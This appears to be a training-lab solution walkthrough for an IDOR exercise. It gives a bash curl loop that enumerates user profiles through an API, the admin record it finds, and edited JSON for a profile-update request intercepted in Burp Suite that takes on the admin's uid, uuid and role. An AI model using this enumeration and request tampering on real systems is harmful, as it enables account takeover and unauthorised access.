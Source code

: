 ```bash
#!/bin/bash

for uid in {1..10}; do
	curl -s "http://STMIP:STMPO/profile/api.php/profile/$uid"; echo
done
```

Students can use `grep` to filter for word "admin" after piping the results of the script:

Code: shell

```shell
bash script.sh | grep "admin" | jq .
```

```
┌─[us-academy-1]─[10.10.14.9]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ bash script.sh | grep "admin" | jq .

{
  "uid": "10",
  "uuid": "bfd92386a1b48076792e68b596846499",
  "role": "staff_admin",
  "full_name": "admin",
  "email": "admin@employees.htb",
  "about": "Never gonna give you up, Never gonna let you down"
}
```

Now that the students have attained the `uid` and `uuid` of an admin account, they need to go to the web root page of the spawned target machine, click on the "Edit Profile" button, then click on the "Update profile" button within the "Edit Profile" page while having Burp Suite intercepting requests:

![[HTB Solutions/CPTS/z. images/7911e51e8f9d3829801625025ded7e57_MD5.jpg]]

Subsequently, students need to edit the sent information about the user making it match that of the "admin" account attained earlier, however, the email is changed to `flag@idor.htb` instead and "1" in the endpoint is changed to 10 and at last send the modified intercepted request:

Code: json

```json
{
  "uid": "10",
  "uuid": "bfd92386a1b48076792e68b596846499",
  "role": "staff_admin",
  "full_name": "admin",
  "email": "flag@idor.htb",
  "about": "Never gonna give you up, Never gonna let you down"
}
```

![[HTB Solutions/CPTS/z. images/8450de4507d19ac39c913a522c9c05f6_MD5.jpg]]
